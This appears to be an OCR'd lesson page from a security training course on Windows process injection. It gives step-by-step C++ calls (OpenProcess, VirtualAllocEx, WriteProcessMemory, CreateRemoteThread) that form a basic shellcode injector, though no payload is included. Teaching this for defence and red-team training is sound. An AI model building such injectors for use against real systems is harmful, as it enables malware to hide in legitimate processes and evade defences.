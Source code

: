# Abusing Processes

Applications running on your operating system can contain one or more processes. Processes maintain and represent a program that’s being executed. 

Processes have several sub-components and directly interact with memory or virtual memory, making them a perfect candidate to target. The table below describes each critical component of processes and their purpose:

| Process Component            | Purpose                                                                 |
|------------------------------|-------------------------------------------------------------------------|
| **Private Virtual Address Space** | Virtual memory addresses the process is allocated.                     |
| **Executable Program**       | Defines code and data stored in the virtual address space.              |
| **Open Handles**             | Defines handles to system resources accessible to the process.          |
| **Security Context**         | The access token defines the user, security groups, privileges, and other security information. |
| **Process ID**               | Unique numerical identifier of the process.                             |
| **Threads**                  | Section of a process scheduled for execution.                          |

For more information about processes, check out the **Windows Internals** room.

---

## Process Injection Overview

Process injection is commonly used as an overarching term to describe injecting malicious code into a process through legitimate functionality or components. Below are four common types of process injection:

| Injection Type               | Function                                                                 |
|------------------------------|-------------------------------------------------------------------------|
| **Process Hollowing**        | Inject code into a suspended and “hollowed” target process.             |
| **Thread Execution Hijacking** | Inject code into a suspended target thread.                            |
| **Dynamic-link Library Injection** | Inject a DLL into process memory.                                   |
| **Portable Executable Injection** | Self-inject a PE image pointing to a malicious function into a target process. |

There are many other forms of process injection outlined by **MITRE T1055**.

---

## Shellcode Injection

At its most basic level, process injection takes the form of **shellcode injection**. Shellcode injection can be broken down into four steps:

1. Open a target process with all access rights.
2. Allocate target process memory for the shellcode.
3. Write shellcode to allocated memory in the target process.
4. Execute the shellcode using a remote thread.

### Step-by-Step Breakdown

#### Step 1: Open the Target Process
Use the `OpenProcess` function to open the target process supplied via the command-line:

```cpp
processHandle = OpenProcess(
    PROCESS_ALL_ACCESS, // Defines access rights
    FALSE, // Target handle will not be inherited
    DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

#### Step 2: Allocate Memory
Allocate memory to the byte size of the shellcode using `VirtualAllocEx`:

```cpp
remoteBuffer = VirtualAllocEx(
    processHandle, // Opened target process
    NULL, 
    sizeof shellcode, // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the committed pages
);
```

#### Step 3: Write Shellcode
Write the shellcode to the allocated memory region using `WriteProcessMemory`:

```cpp
WriteProcessMemory(
    processHandle, // Opened target process
    remoteBuffer, // Allocated memory region
    shellcode, // Data to write
    sizeof shellcode, // Byte size of data
    NULL
);
```

#### Step 4: Execute Shellcode
Execute the shellcode residing in memory using `CreateRemoteThread`:

```cpp
remoteThread = CreateRemoteThread(
    processHandle, // Opened target process
    NULL, 
    0, // Default size of the stack
    (LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
    NULL, 
    0, // Ran immediately after creation
    NULL
);
```

---

## Summary

We can compile these steps together to create a basic process injector. Use the provided C++ injector to experiment with process injection.

Shellcode injection is the most basic form of process injection. In the next task, we will explore how to modify and adapt these steps for **process hollowing**.
